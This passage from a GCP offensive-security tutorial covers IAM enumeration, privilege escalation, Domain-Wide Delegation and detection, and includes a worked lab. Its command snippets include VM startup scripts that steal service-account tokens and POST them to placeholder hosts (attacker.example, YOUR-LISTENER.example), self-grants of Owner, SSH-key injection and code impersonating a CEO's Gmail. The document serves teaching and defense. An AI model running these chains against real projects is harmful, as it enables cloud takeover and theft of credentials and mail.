- **App Engine / Cloud Run / Cloud Functions** default URLs (`*.appspot.com`, `*.run.app`, `*.cloudfunctions.net`) -- probe for unauthenticated invocation and verbose error pages that leak project IDs and SA emails.
- **Google API discovery of a project ID** -- many responses (bucket errors, function errors, IAP redirects) leak the numeric project number or project ID, which seeds authenticated recon later.

**Bug-bounty framing:** unauthenticated GCS/Firebase exposure and public Cloud Functions are among the most commonly rewarded GCP issues on HackerOne/Bugcrowd. Always confirm scope -- many programs treat storage brute-forcing carefully -- and never *write* to or delete from a bucket you don't own even if the ACL allows it.

---

## Part 8: Authenticated Enumeration -- Walking the Graph

Once you hold *any* credential (a stolen key, a metadata token, a low-priv user), the goal is to map three things: **who am I, what can I see, and what can I become.** This is the enumeration core of the chapter.

### Step 1 -- establish identity and scope

```bash
# Who am I right now?
gcloud auth list
gcloud config list account --format="value(core.account)"

# If you only have a raw token, ask Google whose token it is + its scopes:
curl -s "https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=$TOKEN"
# => { "azp": "...", "scope": "https://www.googleapis.com/auth/cloud-platform", "email": "sa@proj.iam.gserviceaccount.com", "expires_in": 3200, ... }

# What projects can this identity even see?
gcloud projects list
gcloud organizations list         # if you can see the org, that alone is signal
gcloud resource-manager folders list --organization=ORG_ID
```

### Step 2 -- enumerate IAM policy at every level of the tree

Remember Part 1: effective access is inherited. Pull policy at org, folder, **and** project, then hunt for bindings that mention *you* (directly, or via a group/domain you belong to).

```bash
# Project-level policy
gcloud projects get-iam-policy eng-prod-1234 --format=json

# Folder- and org-level policy (need viewer on those nodes)
gcloud resource-manager folders   get-iam-policy FOLDER_ID
gcloud organizations             get-iam-policy ORG_ID

# Flatten + filter to find every binding that grants YOU or a broad principal something:
gcloud projects get-iam-policy eng-prod-1234 \
  --flatten="bindings[].members" \
  --format="table(bindings.role, bindings.members)" \
  --filter="bindings.members:allUsers OR bindings.members:allAuthenticatedUsers"
```

### Step 3 -- the killer question: what can I test that I'm allowed to do?

GCP has a **`testIamPermissions`** API on almost every resource: you hand it a list of permissions and it returns the subset you actually hold. This lets you probe your effective access **without triggering the action** -- invaluable when you can't read the policy but can ask "may I?".

```bash
# Ask which of these dangerous permissions you hold on a project:
gcloud projects test-iam-permissions eng-prod-1234 \
  --permissions=iam.serviceAccounts.getAccessToken,iam.serviceAccounts.actAs,\
iam.serviceAccountKeys.create,resourcemanager.projects.setIamPolicy,\
cloudfunctions.functions.create,compute.instances.setMetadata
```

This single call is the fastest route to spotting a privilege-escalation primitive, which is exactly why the escalation-hunting tooling in Part 12 automates it across hundreds of permissions.

### Step 4 -- enumerate the juicy services

```bash
# Service accounts in the project -- your escalation targets
gcloud iam service-accounts list

# Keys on a specific SA (are there long-lived keys to steal/create?)
gcloud iam service-accounts keys list --iam-account=SA_EMAIL

# Compute instances (and their attached SAs + scopes)
gcloud compute instances list
gcloud compute instances describe VM --zone=ZONE \
  --format="yaml(serviceAccounts, metadata)"

# Storage buckets and their IAM
gsutil ls
gsutil iam get gs://some-bucket

# Secrets, KMS keys, Cloud SQL, GKE -- all common loot/escalation surfaces
gcloud secrets list && gcloud secrets versions access latest --secret=NAME
gcloud kms keys list --location=global --keyring=RING
gcloud sql instances list
gcloud container clusters list
```

### Enumeration decision flow



---

## Part 9: Privilege Escalation Primitives (Part 1 -- IAM-native)

Rhino Security Labs catalogued the canonical GCP privesc primitives; every one reduces to "gain the power of a more-privileged identity." Here are the IAM-native ones -- the paths that live inside the IAM system itself.

### 9.1 Service-account impersonation (`getAccessToken`)

If you hold `iam.serviceAccounts.getAccessToken` (via `roles/iam.serviceAccountTokenCreator`) on a more-privileged SA, mint its token and become it:

```bash
# Directly, via gcloud's built-in impersonation:
gcloud compute instances list \
  --project=eng-prod-1234 \
  --impersonate-service-account=privileged-sa@eng-prod-1234.iam.gserviceaccount.com

# Or mint the raw token yourself:
gcloud iam service-accounts get-access-token \
  --impersonate-service-account=privileged-sa@eng-prod-1234.iam.gserviceaccount.com
# => ya29.c.b0Aa...  (now use as Bearer for that SA's power)
```

This is the cleanest escalation: short-lived, no key to leave behind, and if the target SA is Editor/Owner you just inherited the project.

### 9.2 Create a key on a privileged SA (`serviceAccountKeys.create`)

If you can create a key on a more-privileged SA, you get a long-lived credential for it:

```bash
gcloud iam service-accounts keys create loot.json \
  --iam-account=privileged-sa@eng-prod-1234.iam.gserviceaccount.com
gcloud auth activate-service-account --key-file=loot.json
# Now every subsequent command runs as privileged-sa
```

Noisier and more persistent than impersonation (the key is durable -- good for the red-team, bad for stealth; it's logged and long-lived).

### 9.3 Rewrite the policy (`setIamPolicy`)

If you hold `resourcemanager.projects.setIamPolicy` (or the folder/org equivalent, or `*.setIamPolicy` on a resource), just **grant yourself a better role**:

```bash
# Add yourself as Owner of the project:
gcloud projects add-iam-policy-binding eng-prod-1234 \
  --member="user:attacker@example.com" \
  --role="roles/owner"
```

`storage.buckets.setIamPolicy`, `cloudkms.cryptoKeys.setIamPolicy`, `iam.serviceAccounts.setIamPolicy` and friends are the resource-scoped versions -- grant yourself admin on the specific bucket/key/SA. **Blue team:** `SetIamPolicy` calls are high-signal in Cloud Audit Logs; alert on any binding that adds `roles/owner`, `roles/editor`, or `*TokenCreator`.

### 9.4 `signJwt` / `signBlob`

If you hold `iam.serviceAccounts.signJwt` on an SA, you can forge a JWT asserting that SA's identity and exchange it for an access token -- another route to impersonation without `getAccessToken`. Similarly `signBlob` lets you sign arbitrary bytes as the SA (useful for signing GCS URLs or crafting auth material).

| Permission you hold (on a better SA / node) | Escalation | Stealth |
|---|---|---|
| `iam.serviceAccounts.getAccessToken` | Mint short-lived token -> become SA | High (clean, expiring) |
| `iam.serviceAccounts.signJwt` | Forge JWT -> exchange for token | High |
| `iam.serviceAccountKeys.create` | Long-lived key -> become SA | Low (durable, logged) |
| `resourcemanager.projects.setIamPolicy` | Grant self Owner | Low (very loud in audit log) |
| `iam.serviceAccounts.actAs` (+ compute create) | Attach SA to VM/Func -> run as it | Medium |
| `iam.roles.update` (on a custom role you hold) | Add permissions to a role you already have | Medium |

---

## Part 10: Privilege Escalation Primitives (Part 2 -- compute & service abuse)

The second family exploits the `actAs` permission plus a "run my code" service. The pattern is always the same: **create or modify a compute resource, attach a privileged SA to it, and run code that reads that SA's metadata token.**



### 10.1 `compute.instances.setMetadata` -- add your SSH key

If you hold `compute.instances.setMetadata` (or project-wide `compute.projects.setCommonInstanceMetadata`), push an SSH key into instance/project metadata and log in -- often as a user whose shell runs alongside a privileged SA:

```bash
# Add an attacker SSH key to a running instance's metadata:
gcloud compute instances add-metadata VM --zone=ZONE \
  --metadata=ssh-keys="attacker:ssh-rsa AAAAB3...attacker"
gcloud compute ssh attacker@VM --zone=ZONE
# Then, from inside, pull the attached SA token from the metadata server (Part 4).
```

### 10.2 Create a VM with a privileged SA + startup script

```bash
gcloud compute instances create pwn-vm --zone=us-central1-a \
  --service-account=privileged-sa@eng-prod-1234.iam.gserviceaccount.com \
  --scopes=cloud-platform \
  --metadata=startup-script='#!/bin/bash
TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
  http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token)
curl -s -X POST -d "$TOKEN" https://attacker.example/exfil'
```

The `--scopes=cloud-platform` is deliberate: it ensures the exfiltrated token isn't scope-limited (Part 4). This needs `compute.instances.create` **and** `iam.serviceAccounts.actAs` on the target SA.

### 10.3 Cloud Functions / Cloud Run deploy

If you can deploy a function or Run service with a chosen SA (`cloudfunctions.functions.create` + `iam.serviceAccounts.actAs`), your code executes as that SA:

```bash
# Deploy a function that runs as a privileged SA and returns its token:
cat > main.py <<'EOF'
import urllib.request
def pwn(request):
    req = urllib.request.Request(
      "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token",
      headers={"Metadata-Flavor": "Google"})
    return urllib.request.urlopen(req).read()
EOF
echo "functions-framework==3.*" > requirements.txt

gcloud functions deploy pwnfn --runtime=python311 --trigger-http \
  --allow-unauthenticated --entry-point=pwn \
  --service-account=privileged-sa@eng-prod-1234.iam.gserviceaccount.com
# curl the function URL -> get privileged-sa's token
```

### 10.4 Other "run as" surfaces

The same actAs pattern applies to **Cloud Build** (builds run as a powerful default `@cloudbuild.gserviceaccount.com` SA -- controlling a build config is game over in many projects), **Deployment Manager** (`deploymentmanager.deployments.create` runs as the Google APIs service agent with broad rights), **Dataflow/Dataproc jobs**, **Composer (Airflow) DAGs**, and **GKE workloads** (a pod inheriting a node's SA, or Workload Identity misconfig). Whenever you see a "submit code/config, we run it for you" service, ask: *as which SA, and can I influence it?*

| Service | Permission(s) | Runs as | Notes |
|---|---|---|---|
| Compute Engine | `compute.instances.create` + `actAs` | Attached SA | Startup script = instant RCE-as-SA |
| Cloud Functions | `cloudfunctions.functions.create` + `actAs` | Chosen SA | HTTP trigger returns token |
| Cloud Run | `run.services.create` + `actAs` | Chosen SA | Same idea, container-based |
| Cloud Build | `cloudbuild.builds.create` | Cloud Build SA (often Editor) | Very common, very powerful |
| Deployment Manager | `deploymentmanager.deployments.create` | Google APIs SA | Can create IAM bindings |
| Composer / Dataflow | job submit perms + `actAs` | Worker SA | Long-running, good persistence |

---

## Part 11: Lateral Movement & the Workspace Bridge

Escalation gets you power in *one* project. Lateral movement spreads it -- across projects, and, most dangerously, out of GCP into Google Workspace (Gmail, Drive, the whole org's humans).

### Cross-project movement

- **Shared service accounts.** An SA created in `project-A` is frequently granted roles in `project-B`. If you become that SA, you inherit its `project-B` power for free. Enumerate every project's IAM policy for `serviceAccount:` members whose email domain points at a project you already control.
- **Org/folder inheritance (again).** If you can grab an identity with a folder- or org-level binding, you laterally own every project under it. This is why an org-level `roles/editor` on a service account is catastrophic.
- **Shared VPC / networking** and **cross-project Pub/Sub, GCS, BigQuery** bindings create data-plane bridges even without full IAM control.

### Domain-Wide Delegation (DWD) -- GCP -> Workspace

This is the crown-jewel pivot. **Domain-wide delegation** lets a service account **impersonate any human user in the Workspace domain** for a chosen set of OAuth scopes -- reading their Gmail, their Drive, the directory, everything -- *without their consent*. It's configured by a Workspace Super Admin who authorises an SA's OAuth **client ID** for specific scopes.



If you compromise an SA that has DWD configured (or you can create a key for it), and it's authorised for juicy scopes like `https://mail.google.com/` or `https://www.googleapis.com/auth/admin.directory.user`, you can impersonate arbitrary employees -- including a super admin -- and effectively own the whole organisation's data. This is why **DWD is one of the highest-severity findings in any GCP audit**, and why becoming a DWD-enabled SA is the endgame of many real GCP attack chains. **Blue team:** inventory every DWD grant (Workspace Admin -> Security -> API Controls -> Domain-wide delegation), scope them minimally, and prefer per-user OAuth or the newer, more constrained delegation controls.

Concretely, once you hold a key (or token) for a DWD SA, libraries like `google-auth` let you set `sub` to the victim:

```python
from google.oauth2 import service_account
creds = service_account.Credentials.from_service_account_file(
    "dwd-sa.json",
    scopes=["https://www.googleapis.com/auth/gmail.readonly"],
    subject="ceo@example.com",       # impersonate this human
)
# Build the Gmail API client with `creds` and read the CEO's inbox.
```

---

## Part 12: Automated Enumeration & Escalation Tooling

Doing all of Part 8-11 by hand is fine for learning and for surgical work, but on a real engagement you industrialise it. Teach-from-scratch the tools that matter for GCP.

### ScoutSuite (multi-cloud auditor, GCP module)

**What it is:** an open-source, read-only, multi-cloud security auditor (introduced in Chapter 3 for AWS). Its GCP provider pulls the full config of a project/org via the APIs and produces an offline HTML report flagging misconfigurations -- public buckets, over-privileged SAs, default SAs with keys, open firewall rules, unencrypted disks.

```bash
pip3 install scoutsuite
# Run against a project using your active gcloud creds:
scout gcp --user-account --project-id eng-prod-1234
# Or with an SA key:
scout gcp --service-account key.json --project-id eng-prod-1234
# Output: scoutsuite-report/gcp-<id>.html  (open in a browser)
```

**Blue-team usage:** ScoutSuite is equally a defender's tool -- run it periodically to baseline drift.

### GCP-IAM-Privilege-Escalation / gcp_enum-style scripts

Rhino Security's **GCP privilege-escalation** research ships proof-of-concept scripts that, given a credential, enumerate which of the error-prone privesc permissions you hold (using `testIamPermissions` in bulk) and, in a separate exploit script, walk the chosen path. The methodology matters more than any single script: **enumerate every permission you hold, match it against the known-dangerous set, pick the quietest viable primitive.**

### Other tools worth knowing

| Tool | Purpose |
|---|---|
| **ScoutSuite** | Full read-only config audit + HTML report (GCP/AWS/Azure) |
| **GCPBucketBrute** | Unauthenticated/authenticated GCS bucket discovery + permission checks |
| **gcloud recursive-descent scripts** | `for p in $(gcloud projects list ...); do get-iam-policy ...; done` -- your own quick sweeps |
| **Prowler** (GCP support) | CIS-benchmark-style checks, findings as CSV/JSON |
| **hayat / gcp_scanner (Google's own)** | Google-published GCP resource/credential scanner |
| **Cartography** | Graphs GCP (and other) assets into Neo4j for attack-path queries |

**A word on discipline:** every one of these hits real APIs and shows up in Cloud Audit Logs. On an authorised engagement that's fine; understand that "enumeration" is not invisible in GCP -- `list`/`get`/`testIamPermissions` at scale is itself a detectable pattern (Part 13).

---

## Part 13: Detection & Defense Angle

Everything above leaves traces, and everything above has a countermeasure. This consolidated part is the blue-team half of the chapter.

### Cloud Audit Logs -- the source of truth

GCP records three log streams; know which captures what:

| Log type | Captures | On by default? |
|---|---|---|
| **Admin Activity** | Config/write changes: `SetIamPolicy`, create/delete VM, create SA key | **Yes**, always on, can't disable |
| **Data Access** | Reads of data & config: `storage.objects.get`, `get-iam-policy`, most enumeration | **No** (except BigQuery) -- must be enabled |
| **System Event** | Google-initiated actions (e.g. live migration) | Yes |

The critical gap attackers rely on: **Data Access logs are off by default.** All of the read-heavy enumeration in Part 8 (`get-iam-policy`, `list`, `testIamPermissions`, metadata reads, bucket reads) is invisible unless the org explicitly enabled Data Access logging. **Blue-team priority #1:** enable Data Access audit logs (at least ADMIN_READ and DATA_READ) org-wide, and route all logs to a centralised, immutable sink.

High-signal events to alert on (these are the loud escalation moves from Parts 9-10):

```
- SetIamPolicy adding roles/owner, roles/editor, or *TokenCreator / *ActAs
- google.iam.admin.v1.CreateServiceAccountKey            (new SA key minted)
- GenerateAccessToken / SignJwt / SignBlob at unusual volume (impersonation)
- compute.instances.insert with a privileged SA + startup-script
- cloudfunctions.functions.create / run.services.create with a non-default SA
- setCommonInstanceMetadata / instances.setMetadata modifying ssh-keys
- Any org-level binding change / Access management for Azure-style elevation
- Anomalous access-token use from a new IP/ASN for a service account
```

### Preventive controls (stop the primitive existing)



- **Org Policy constraints** are the strongest preventive layer because they apply top-down across the whole hierarchy: `iam.disableServiceAccountKeyCreation` (removes the #1 leak), `iam.allowedPolicyMemberDomains` (blocks `allUsers`/`allAuthenticatedUsers` and foreign identities), `storage.publicAccessPrevention`, `iam.automaticIamGrantsForDefaultServiceAccounts` (stops the Editor-default-SA footgun), and `constraints/iam.disableServiceAccountKeyUpload`.
- **Least privilege on service accounts** -- never attach the default SA; create a purpose-built SA per workload with only the roles it needs and minimal scopes; prefer **Workload Identity Federation** (short-lived, keyless) over SA keys entirely.
- **IAM Recommender & Policy Analyzer** -- Google's own tooling that flags unused permissions and answers "who can access what" -- use it to shrink roles to observed usage.
- **VPC Service Controls** -- build a service perimeter so that even a stolen token can't exfiltrate BigQuery/GCS data to an external project; this specifically breaks the "pull token, read all the data, exfil" chain.
- **Security Command Center (SCC)** -- GCP's native CSPM/CNAPP: surfaces public buckets, over-privileged SAs, open firewall rules, and (in premium) threat detections built on Event Threat Detection over your audit logs.
- **Constrain Domain-Wide Delegation** -- audit and minimise every DWD grant; it is the highest-impact identity risk in a Workspace-attached org.

### Detection tooling

- **Event Threat Detection (SCC Premium)** ships rules for exactly the events above (anomalous IAM grant, SA self-investigation, brute-force, exfiltration).
- **Chronicle / SIEM** ingesting the centralised log sink lets you write your own detections (e.g. "an SA that never mints tokens suddenly calls `GenerateAccessToken` for a different SA").
- **Forseti / Config Validator / Cloud Asset Inventory** for continuous policy-as-code checks and point-in-time asset snapshots to diff against.

---

## Part 14: Full Worked Lab -- Enumerate & Escalate in an Authorised Project

This ties Parts 4-10 into one reproducible run against a project **you own or are authorised to test** (spin up a free-tier project, or use GCPGoat). Scenario: you've landed a shell on a GCE VM via a web-app RCE and want to go from "shell on a box" to "control of the project," documenting every step as you would in a report.

**Step 0 -- confirm you're on a GCP VM and grab identity.**

```bash
$ curl -s -H "Metadata-Flavor: Google" \
    http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/email
default-compute-sa@ctf-lab-4471.iam.gserviceaccount.com

$ curl -s -H "Metadata-Flavor: Google" \
    http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/scopes
https://www.googleapis.com/auth/cloud-platform          # <-- full scope, promising
```

**Step 1 -- pull the token and check who it is.**

```bash
$ TOKEN=$(curl -s -H "Metadata-Flavor: Google" \
    http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token \
    | python3 -c "import sys,json;print(json.load(sys.stdin)['access_token'])")

$ curl -s "https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=$TOKEN"
{
  "azp": "1049...",
  "aud": "1049...",
  "scope": "https://www.googleapis.com/auth/cloud-platform",
  "exp": "1712712345",
  "email": "default-compute-sa@ctf-lab-4471.iam.gserviceaccount.com",
  "email_verified": "true"
}
```

**Step 2 -- configure gcloud with the stolen token (or use curl directly).**

```bash
# Fastest: export the token so gcloud/SDKs pick it up, or activate it:
$ gcloud config set project ctf-lab-4471
$ export CLOUDSDK_AUTH_ACCESS_TOKEN="$TOKEN"   # gcloud uses this token
```

**Step 3 -- what am I allowed to do? (the decisive step).**

```bash
$ gcloud projects test-iam-permissions ctf-lab-4471 \
    --permissions=iam.serviceAccounts.getAccessToken,iam.serviceAccounts.actAs,\
iam.serviceAccountKeys.create,resourcemanager.projects.setIamPolicy,\
compute.instances.create,compute.instances.setMetadata,\
cloudfunctions.functions.create --format="value(permissions)"
iam.serviceAccounts.actAs
compute.instances.create
compute.instances.setMetadata
```

We *don't* hold `setIamPolicy` or `getAccessToken` directly -- but we DO hold `actAs` + `compute.instances.create`. That's the Part 10 primitive.

**Step 4 -- find a more-privileged SA to target.**

```bash
$ gcloud iam service-accounts list --format="table(email)"
EMAIL
default-compute-sa@ctf-lab-4471.iam.gserviceaccount.com
terraform-deployer@ctf-lab-4471.iam.gserviceaccount.com     # <-- likely Owner/Editor

$ gcloud projects get-iam-policy ctf-lab-4471 \
    --flatten="bindings[].members" \
    --filter="bindings.members:terraform-deployer" \
    --format="table(bindings.role)"
ROLE
roles/owner                                                 # confirmed: Owner
```

**Step 5 -- abuse actAs: create a VM running AS the Owner SA and exfil its token.**

```bash
$ gcloud compute instances create escalation-vm --zone=us-central1-a \
    --service-account=terraform-deployer@ctf-lab-4471.iam.gserviceaccount.com \
    --scopes=cloud-platform \
    --metadata=startup-script='#!/bin/bash
T=$(curl -s -H "Metadata-Flavor: Google" \
  http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token \
  | python3 -c "import sys,json;print(json.load(sys.stdin)[\"access_token\"])")
curl -s -X POST --data "token=$T" https://YOUR-LISTENER.example/exfil'
Created [.../instances/escalation-vm].
NAME           ZONE           MACHINE_TYPE   STATUS
escalation-vm  us-central1-a  n1-standard-1  RUNNING
```

**Step 6 -- receive the Owner SA's token, become Owner, prove it.**

```bash
# On your listener you now have terraform-deployer's ya29 token. Use it:
$ OWNER_TOKEN="ya29.c.b0Aa..."
$ curl -s -H "Authorization: Bearer $OWNER_TOKEN" \
    -H "Content-Type: application/json" \
    "https://cloudresourcemanager.googleapis.com/v1/projects/ctf-lab-4471:getIamPolicy" \
    | python3 -m json.tool | head
# ...and, because this SA is Owner, grant your own persistent access:
$ CLOUDSDK_AUTH_ACCESS_TOKEN="$OWNER_TOKEN" gcloud projects add-iam-policy-binding \
    ctf-lab-4471 --member="user:you@example.com" --role="roles/owner"
```

**Step 7 -- clean up (you always do, on an authorised test).**

```bash
$ gcloud compute instances delete escalation-vm --zone=us-central1-a --quiet
# and remove any bindings/keys you added, documenting each in the report.
```

**What the report should say:** the default Compute SA carried `cloud-platform` scope; the project allowed `actAs` on an Owner-privileged deployer SA to a low-priv principal; result: full project takeover from a single web RCE. Fixes: strip the default SA, set `iam.automaticIamGrantsForDefaultServiceAccounts`, remove broad `actAs`, and enable Data Access logs so Steps 3-5 aren't invisible.

---

## Part 15: Common Pitfalls & Gotchas

- **Forgetting scopes.** A token can hold `cloud-platform` in IAM but be scope-limited to read-only storage. Always pull `/scopes` (VM) or `tokeninfo` (raw token) before concluding a token is weak -- *or* strong.
- **Project ID vs project number vs display name.** The default SA email uses the *number*; IAM conditions and some commands want the *ID*. Mixing them yields confusing 403/404s.
- **Enumerating only the current project.** Effective permissions are inherited from folder and org. Always `get-iam-policy` up the tree -- a low-priv project role can hide a fat org binding (and vice-versa: your project 403 might be an *org* Deny).
- **The two identity systems.** GCP Org Admin != Workspace Super Admin. A `graph`/`admin.directory` need lives in Workspace; a resource need lives in Cloud IAM. Grabbing the wrong-audience token is the top beginner mistake.
- **Assuming enumeration is silent.** It isn't if Data Access logs are on. Conversely, defenders who *think* they'd see recon often haven't enabled those logs -- check before you rely on either assumption.
- **Missing the `Metadata-Flavor: Google` header.** Every metadata call needs it; SSRF that can't set headers won't reach the token endpoint.
- **Treating `allAuthenticatedUsers` as safe.** It is *not* internal-only -- it's any Google account on earth, including a throwaway Gmail.
- **Leaving artifacts behind.** SA keys, VMs, and IAM bindings you create are durable and logged. On authorised tests, inventory and remove everything; document each.

---

## Part 16: Final Revision / Summary

- **GCP is a strict tree**: organization -> folder -> project -> resource, and **IAM policy is inherited down it**. Always enumerate policy at every level.
- **IAM = members + roles + bindings + policies**, pure allow-union model. Basic roles (`owner`/`editor`/`viewer`) are broad and dangerous; `allUsers`/`allAuthenticatedUsers` are public.
- **The service account is the unit of privilege.** Every escalation reduces to becoming a more-privileged SA via one of three doors: **static key**, **impersonation** (`getAccessToken`/`signJwt`), or **actAs + run** (attach SA to VM/Function/Build).
- **The metadata server** (`169.254.169.254`, header `Metadata-Flavor: Google`) hands out the attached SA's OAuth token -- the crown jewel after SSRF/RCE. Effective power = **IAM roles n token scopes**.
- **Enumeration flow:** who am I (tokeninfo) -> what can I see (projects/org) -> policy at every level -> **testIamPermissions** -> pick the quietest escalation primitive -> loot -> lateral.
- **Escalation primitives:** `getAccessToken`, `signJwt`, `serviceAccountKeys.create`, `setIamPolicy`, `actAs` + (`compute.instances.create` / `cloudfunctions.create` / Cloud Build / Deployment Manager), `setMetadata` (ssh-keys).
- **Lateral movement** spreads via shared SAs, org/folder inheritance, and -- most dangerously -- **Domain-Wide Delegation** into Google Workspace, letting a compromised SA impersonate any human.
- **Defense:** enable Data Access audit logs (they're off by default!), alert on `SetIamPolicy`/key-creation/impersonation, apply **Org Policy** constraints (disable SA keys, block public members, no auto-Editor default SA), use **Workload Identity Federation**, **VPC Service Controls**, and **SCC**, and lock down **DWD**.

---

## Part 17: Cheat Sheet / Quick Reference

```bash
### IDENTITY & CONTEXT
gcloud auth list                                  # who am I
gcloud config list                                # account/project/region
curl -s "https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=$TOKEN"  # whose token + scopes
gcloud projects list                              # visible projects
gcloud organizations list                         # visible org

### METADATA SERVER (on a GCE/GKE/Cloud Run/Func workload)
H="Metadata-Flavor: Google"; M=http://169.254.169.254/computeMetadata/v1
curl -s -H "$H" $M/instance/service-accounts/default/email
curl -s -H "$H" $M/instance/service-accounts/default/scopes
curl -s -H "$H" $M/instance/service-accounts/default/token          # crown jewel
curl -s -H "$H" $M/project/attributes/ssh-keys
curl -s -H "$H" "$M/instance/service-accounts/default/identity?audience=URL"

### IAM ENUMERATION (do at EVERY level)
gcloud projects get-iam-policy PROJECT --format=json
gcloud resource-manager folders get-iam-policy FOLDER_ID
gcloud organizations get-iam-policy ORG_ID
gcloud projects get-iam-policy PROJECT --flatten="bindings[].members" \
  --format="table(bindings.role,bindings.members)" \
  --filter="bindings.members:allUsers OR bindings.members:allAuthenticatedUsers"

### "WHAT CAN I DO?" (no action triggered)
gcloud projects test-iam-permissions PROJECT --permissions=P1,P2,...

### SERVICE ACCOUNTS
gcloud iam service-accounts list
gcloud iam service-accounts keys list --iam-account=SA
gcloud iam service-accounts keys create key.json --iam-account=SA   # long-lived key
gcloud iam service-accounts get-access-token --impersonate-service-account=SA  # short-lived
gcloud <cmd> --impersonate-service-account=SA                       # act as SA inline

### ESCALATION MOVES
gcloud projects add-iam-policy-binding PROJECT --member=user:X --role=roles/owner  # setIamPolicy
gcloud compute instances create v --service-account=SA --scopes=cloud-platform \
  --metadata=startup-script='...pull+exfil token...'               # actAs + create
gcloud compute instances add-metadata VM --zone=Z --metadata=ssh-keys="u:KEY"     # setMetadata
gcloud functions deploy fn --service-account=SA --trigger-http ... # actAs via Functions

### STORAGE / DATA (unauth + auth)
curl -s -o /dev/null -w "%{http_code}\n" https://storage.googleapis.com/BUCKET  # 200/403/404
gsutil ls gs://BUCKET ; gsutil iam get gs://BUCKET
gcloud secrets list ; gcloud secrets versions access latest --secret=NAME
bq ls ; bq query --use_legacy_sql=false 'SELECT ...'

### AUDIT (defender)
gcloud logging read 'protoPayload.methodName="SetIamPolicy"' --limit=20
gcloud logging read 'protoPayload.methodName:"CreateServiceAccountKey"' --limit=20
gcloud org-policies list --project=PROJECT
```

**Escalation-permission memory table:**

| If you hold... | You can... |
|---|---|
| `iam.serviceAccounts.getAccessToken` on SA | Become that SA (short-lived) |
| `iam.serviceAccounts.signJwt` on SA | Forge JWT -> become SA |
| `iam.serviceAccountKeys.create` on SA | Long-lived key -> become SA |
| `*.setIamPolicy` (project/folder/org/resource) | Grant yourself a bigger role |
| `iam.serviceAccounts.actAs` + `compute.instances.create` | Run code as SA on a VM |
| `iam.serviceAccounts.actAs` + `cloudfunctions.functions.create` | Run code as SA in a Function |
| `cloudbuild.builds.create` | Run as the (often-Editor) Cloud Build SA |
| `compute.instances.setMetadata` | Inject SSH key -> shell on VM |
| DWD-enabled SA + admin scopes | Impersonate any Workspace user |

---

## Part 18: Practice Labs & Resources

Train each skill in this chapter on purpose-built, legal targets:

- **GCPGoat** (Rhino Security / INE) -- a deliberately-vulnerable GCP deployment (Terraform) that reproduces exactly the SA-impersonation, actAs, public-bucket and privesc paths in Parts 8-11. The best single hands-on for this chapter.
- **thunder-ctf** (community) -- a set of escalating GCP CTF levels (metadata token theft, Cloud Functions abuse, Deployment Manager, storage) you solve with `gcloud`; mirrors the primitives in Parts 9-10.
- **CloudGoat has an AWS focus**, but its GCP-analogue community forks and **flAWS-style GCP challenges** are worth chaining for cross-cloud fluency (contrast with Chapter 2's AWS metadata attacks).
- **Rhino Security Labs "Privilege Escalation in Google Cloud Platform"** blog + the `GCP-IAM-Privilege-Escalation` repo -- the canonical write-up and PoC scripts behind Parts 9-10; read the methodology, not just the commands.
- **GCPBucketBrute** -- practise unauthenticated/authenticated bucket discovery (Part 7) against your own test buckets with varied ACLs (`allUsers`, `allAuthenticatedUsers`, private).
- **HackTricks Cloud (GCP section)** and **Google's own "GCP security best practices" / CIS GCP Benchmark** -- cross-reference every escalation with its defensive control from Part 13.
- **Build-your-own range:** a free-tier project where you deliberately (a) attach the default Editor SA with `cloud-platform` scope, (b) grant a low-priv user `actAs` on an Owner SA, (c) make a public bucket, then run ScoutSuite and the Part 14 lab end-to-end and watch which steps do and don't appear in audit logs once you toggle Data Access logging.

**Practice questions:**

1. You pull a metadata token whose `tokeninfo` shows `scope: devstorage.read_only` but the SA has `roles/editor`. Can you create a VM with it? Why or why not -- and what single VM-creation flag would have changed the answer if *you* were creating the box?
2. You hold `iam.serviceAccounts.actAs` on an Owner SA but **not** `compute.instances.create`, `cloudfunctions.functions.create`, or `run.services.create`. List two *other* "run as" services from Part 10 you could try, and what permission each needs.
3. `gcloud projects get-iam-policy` on your current project shows you only `roles/viewer`, yet you can create SA keys. Where is that permission most likely coming from, and which command would confirm it?
4. Explain precisely why enabling `iam.disableServiceAccountKeyCreation` and `iam.automaticIamGrantsForDefaultServiceAccounts` together would have broken the Part 14 attack chain -- and which step each one blocks.
5. You compromise an SA key and discover the SA is authorised for Domain-Wide Delegation with scope `https://www.googleapis.com/auth/admin.directory.user`. Describe the exact impact and the single Workspace-admin action that would neutralise it.

---

This chapter mapped Google Cloud from the resource hierarchy down to the individual token, with the service account as the throughline of every attack. The next chapter leaves the managed-cloud identity planes behind and drops a level in the stack -- into **Docker Security, Image Scanning (Trivy) & Container Breakouts** -- where the boundary you attack is the container isolation itself rather than the IAM policy around it.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/cloud-security/05-gcp-security-essentials-and-enumeration), with comments and the latest edits.*
